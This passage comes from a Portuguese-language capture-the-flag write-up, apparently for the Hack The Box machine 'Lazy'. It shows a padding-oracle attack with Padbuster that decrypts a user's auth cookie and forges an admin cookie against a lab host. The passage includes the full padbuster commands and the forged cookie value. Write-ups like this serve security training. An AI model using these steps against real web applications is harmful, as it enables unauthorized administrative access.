Forward e verificamos no browser nosso login de admin

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-lazy/L_p13.png)

## 3º Modo - Padbuster

Agora iremos demonstrar utilizando uma ferramenta chamada `Padbuster`

A instalação dele é simples, `apt-get install padbuster`

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-lazy/L_p14.png)

Pegamos o `auth=` do usuário `Lazy`

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-lazy/L_p15.png)

> auth=NkaCo8l2QglMtAYg9L754u5EK4SvQ3NW

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-lazy/L_p16.png)

Deixamos o padbuster fazer o trabalho agora

`
padbuster http://10.10.10.18/index.php NkaCo8l2QglMtAYg9L754u5EK4SvQ3NW 8 -cookies auth=NkaCo8l2QglMtAYg9L754u5EK4SvQ3NW
`

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-lazy/L_p17.png)

Acabou... (depois de muuuito tempo, realmente, demora pra caralho)

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-lazy/L_p18.png)

Agora podemos "adivinhar" o cookie do admin

`
padbuster http://10.10.10.18/index.php NkaCo8l2QglMtAYg9L754u5EK4SvQ3NW 8 -cookies auth=NkaCo8l2QglMtAYg9L754u5EK4SvQ3NW -plaintext user=admin
`

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-lazy/L_p19.png)

Acabou... (depois de muuuito tempo, realmente, demora pra caralho)

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-lazy/L_p20.png)

> BAitGdYuupMjA3gl1aFoOwAAAAAAAAAA

Alteramos o valor no BurpSuite

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-lazy/L_p21.png)

Temos acesso de admin

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-lazy/L_p22.png)
